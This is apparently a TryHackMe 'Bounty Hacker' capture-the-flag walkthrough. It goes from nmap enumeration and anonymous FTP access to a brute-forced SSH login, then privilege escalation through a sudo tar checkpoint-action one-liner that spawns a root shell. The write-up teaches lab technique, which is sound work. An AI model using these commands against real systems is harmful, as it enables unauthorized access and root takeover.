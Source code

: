 # THM - Bounty Hacker

#### Ip: 10.10.121.167
#### Name: Bounty Hacker
#### Difficulty: Easy

----------------------------------------------------------------------

bounty.jpeg

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. 

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ sudo nmap -p-  --min-rate 10000 10.10.121.167        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 09:28 CDT
Nmap scan report for 10.10.121.167
Host is up (0.27s latency).
Not shown: 64168 filtered tcp ports (no-response), 1364 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Next I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ sudo nmap -sC -sV 10.10.121.167 -p 21,22,80                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 09:31 CDT
Nmap scan report for 10.10.121.167
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.6.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.49 seconds
```

Heading to the site we find a static page:

site.png

Looking over our Nmap results we see that FTP has anonymous access enabled- lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ ftp 10.10.121.167  
Connected to 10.10.121.167.
220 (vsFTPd 3.0.3)
Name (10.10.121.167:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||38071|)
ftp: Can't connect to `10.10.121.167:38071': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |********************************************************************************|   418        3.39 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (1.27 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |********************************************************************************|    68      111.98 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.33 KiB/s)
ftp> bye
221 Goodbye.
```
Lets take a look at these files:

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ cat locks.txt             
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

Cool, we now have a potential username as well as what appears to be a password list. Lets try this against SSH using Hydra:

### Exploitation

hydra.png

Cool, Hydra found a valid password. Lets login to SSH.

```text
┌──(ryan㉿kali)-[~/THM/Bounty_Hacker]
└─$ ssh lin@10.10.121.167                      
The authenticity of host '10.10.121.167 (10.10.121.167)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.121.167' (ED25519) to the list of known hosts.
lin@10.10.121.167's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
```

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we see we can run tar:

```text
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Lets head over to https://gtfobins.github.io/gtfobins/tar/#sudo for the commands we'll need to exploit this:

tar.png

```text
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Nice, that worked. Lets grab the final root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------